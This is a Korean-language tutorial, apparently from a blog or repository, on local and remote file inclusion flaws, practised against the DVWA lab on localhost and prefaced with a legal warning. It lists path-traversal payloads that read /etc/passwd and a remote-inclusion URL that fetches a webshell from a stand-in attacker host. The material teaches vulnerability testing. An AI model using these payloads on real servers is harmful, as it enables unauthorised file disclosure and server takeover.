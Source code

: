 ## 파일 삽입 공격
이 도구를 이용하여 허용받지 않은 서비스 대상으로 해킹을 시도하는 행위는 범죄 행위 입니다. 
해킹을 시도할 때에 발생하는 법적인 책임은 그것을 행한 사용자에게 있다는 것을 명심하시기 바랍니다. 
File Inclusion 취약점은 웹 서버의 정보를 권한 없이 가져오거나, 공격자가 대상 서버의 URL을 통하여 공격코드를 삽입하는 공격을 말합니다.
File Inclusion 취약점은 LFI(Local File Inclusion) 와 RFI(Remote File Inclusion)로 나누어 집니다.
■ LFI(Local File Inclusion)LFI 취약점을 이용한 공격 방식은 서버 내(로컬) 파일에 접근하는 공격 방식입니다.        
예를 들어 서버 디렉토리 안에 WebShell을 업로드 한후 File Inclusion 취약점이 있는 페이지를 통해 WebShell을 실행 시킬 수 있고, 서버 내에 중요 파일까지 접근을 할수 있습니다.     
■ RFI(Local File Inclusion)RFL 취약점을 이용한 공격 방식은 공격자가 악성 스크립트 파일을 서버에 전달하여 해당 페이지를 통하여 악성스크립트를 실행하게 하는 공격 방식 입니다.      
File Inclusion 취약점은 일반적으로 $_GET, $_POST, $_Cookie 값을 전달받는 과정에서 매개변수의 값을 서버에서 제대로 검증하지 않아 발생 합니다.      
        
해당화면은 File Inclusion 취약점 진단항목의 화면이며, More Information 링크를 눌러 자세한 설명을 확인하실수 있습니다.    
Low레벨의 소스코드를 보시면 URL 매개변수에 대한 어떠한 검증도 하고 있지 않는것을 알 수 있습니다.

해당 페이지의 HTML 소스코드 입니다. 해당 코드도 마찬가지로 매개변수 값을 검증하지 않고 그대로 넘겨주는 것을 확인할 수 있습니다.      

Midium레벨의 소스코드를 확인해 보면 str_replace를 이용하여 치환을 하지만 이는 충분히 우회가 가능합니다.
해당 취약점 페이지의 URL을 확인해 보면 http://자신의 IP/vulnerabilities/fi/?page=file1.php page 변수를 통하여 페이지를 불러 들이고,
이때 page 변수 입력 값에 대한 검증이 이루어지지 않아 해당 취약점이 발생을 합니다. 취약점이 있는지 확인

URL 주소에 page=../ 이렇게만 입력을 해보면 친절하게 취약점이 있다고 설명을 해주고 있습니다.그럼 실제 File Inclusion 취약점 테스트를 진행해보도록 하겠습니다. 
테스트를 하기 전에 먼저 자신의 DVWA 폴더안에 test 파일을 하나 만들고 그안에 글씨를 써서 저장을 해놓습니다. 
       
해당 취약점 공격은 윈도우에서 테스트를 하였습니다. http://127.0.0.1/vulnerabilities/fi/?page=..\..\test.txt 저같은 경우는 test.txt 라는 파일로 만들어서 테스를 하였습니다.       
실제 공격 구문을 입력하면 test.txt 파일안에 내용이 보입니다. 만약 여기에 중요한 비밀번호나 계정정보가 들어 있다면 그 정보들을 다 유출이 될것 입니다.     
http://example.com/index.php?file=../../../../etc/passwdhttp://example.com/index.php?file=..%2F..%2F..%2F..%2Fetc%2Fpasswdhttp://example.com/index.php?file=../../../../etc/passwd%http://example.com/index.php?file=..\..\..\test.txthttp://example.com/index.php?file=C:\test.txthttp://example.com/index.php?file=http://evil.example.com/webshell.txt (RFI)          
해당 취약한 공격코드는 이것 외에도 많이 있으며, 참고만 하시기 바랍니다.절대 검증되지 않은 페이지에서는 공격 시도를 하지 마시기 바랍니다. 법적인 책임을 지실수도 있습니다.       


## More Information
Wikipedia - File inclusion vulnerability
WSTG - Local File Inclusion
WSTG - Remote File Inclusion
